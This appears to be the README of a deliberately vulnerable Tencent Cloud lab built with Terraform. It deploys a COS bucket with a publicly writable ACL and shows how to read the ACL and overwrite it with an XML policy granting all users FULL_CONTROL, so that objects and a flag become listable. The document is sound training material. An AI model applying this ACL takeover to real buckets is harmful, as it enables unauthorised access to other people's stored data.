 # Tencent Cloud COS Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the Tencent Cloud COS bucket ACL is writable.

After you build an environment using Terraform, users can access COS resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_app_id`,`tencentcloud_account_id`,`tencentcloud_secret_id`and`tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> * You can see your account ID and APPID in the [account information](https://console.cloud.tencent.com/developer) of Tencent Cloud console.
> * You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied

![image](../../../images/1652347780.png)

Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![image](../../../images/1652347858.png)

Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![image](../../../images/1652348202.png)

Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

In the response message, you can see the flag.

![image](../../../images/1652348264.png)

## Destroy the environment

```shell
terraform destroy
```
